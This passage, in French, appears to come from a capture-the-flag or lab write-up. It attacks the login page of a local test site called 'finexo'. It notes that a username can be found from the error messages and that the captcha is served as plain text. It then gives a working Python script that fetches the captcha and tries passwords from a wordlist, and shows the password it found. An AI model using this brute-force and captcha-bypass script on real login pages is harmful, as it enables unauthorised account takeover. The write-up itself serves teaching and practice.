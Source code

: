Presque tous les utilisateurs n'existent pas à l'exception de  `SpongeBob` pour lequel on obtient `Wrong Password`.

L'implémentation du captcha est triviale : sa valeur est récupérée via une requête XHR, directement au format texte.

Pour notre script de brute-force, il faut donc faire à chaque fois une requête préalable pour l'obtenir :

```python
import sys

import requests
from requests.exceptions import RequestException

sess = requests.session()
URL = "http://192.168.242.129/finexo/login.php"

def test_password(password: str) -> bool:
    global session

    try:
        captcha = sess.get(URL + "?action=generateCaptcha").text
        response = sess.post(URL, data={"username": "SpongeBob", "password": password, "captcha": captcha})
        if "Wrong Captcha" in response.text:
            print("Got a bad captcha!")
            return False
        if "Wrong Password" in response.text:
            return False
    except RequestException as err:
        print(f"Bad response: {err}")
        return False

    return True


if __name__ == "__main__":
    with open(sys.argv[1], encoding="utf-8", errors="ignore") as fd:
        for line in fd:
            passwd = line.strip()
            if test_password(passwd):
                print(f"Found password {passwd}")
                break
```

On obtient assez rapidement le mot de passe :

```
Found password squarepants
```

### LumpyShack
